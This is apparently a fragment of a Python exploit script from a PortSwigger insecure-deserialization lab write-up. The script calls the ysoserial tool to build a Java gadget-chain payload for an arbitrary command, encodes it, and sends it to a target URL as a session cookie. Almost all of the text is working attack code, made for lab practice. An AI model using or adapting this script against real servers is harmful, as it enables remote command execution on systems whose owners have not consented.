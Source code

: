```py
        self.command = command

    def checkJavaVersion(self):
        print('[*] Checking Java version...')

        # Run command 'java --version'
        javaVersionOutput = subprocess.check_output(['java', '--version'])
        matchedResult = search(r'([0-9.]+)', str(javaVersionOutput))
        javaVersion = matchedResult.group(0)

        print(f'[*] Java version is: {javaVersion}')

        if int(javaVersion[:2]) >= 12:
            print('[-] This version doesn\'t work. Please switch to Java version <= 12. Example:')
            print('''┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# export JAVA_HOME="/usr/lib/jvm/java-11-openjdk-amd64"
                                                                                                           
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# export PATH="${JAVA_HOME}/bin:{$PATH}"''')
            exit(0)
        else:
            print('[+] This version works!')

    def generatePayload(self):
        print('[*] Generating payload...')
        print(f'[*] Payload = {self.payload}, command = {self.command}')
        
        # Run command 'java -jar <ysoserial jar full path> <payload> <command>', and base64 encode it
        generatedPayload = b64encode(subprocess.check_output(['java', '-jar', self.jarPath, self.payload, self.command]))

        # Output the generated payload to disk
        print('[*] Writing the generated payload to disk for later use...')

        # Remove existed ysoserial_payload.b64 file
        if os.path.exists('ysoserial_payload.b64'):
            os.remove('ysoserial_payload.b64')

        for character in generatedPayload:
            with open('ysoserial_payload.b64', 'a') as file:
                file.write(chr(character))

        # URL encode the generated payload
        return quote(generatedPayload)

    def sendPayload(self, url, fullPayload):
        print('[*] Sending the payload...')

        payloadCookie = {
            'session': fullPayload
        }

        requests.get(url, cookies=payloadCookie)
        print('[+] Payload has been sent.')

def argumentParser():
    parser = argparse.ArgumentParser(description='A python script that generates and send ysoserial tool\'s payload, which is an Java serialized object gadget chains.')
    parser.add_argument('-j', '--jar', metavar='Path', help='The absolute path of the ysoserial Jar file. For example: /opt/ysoserial/ysoserial-all.jar', required=True)
    parser.add_argument('-p', '--payload', metavar='Payload', help='The ysoserial payload. For example: CommonsCollections4', required=True)
```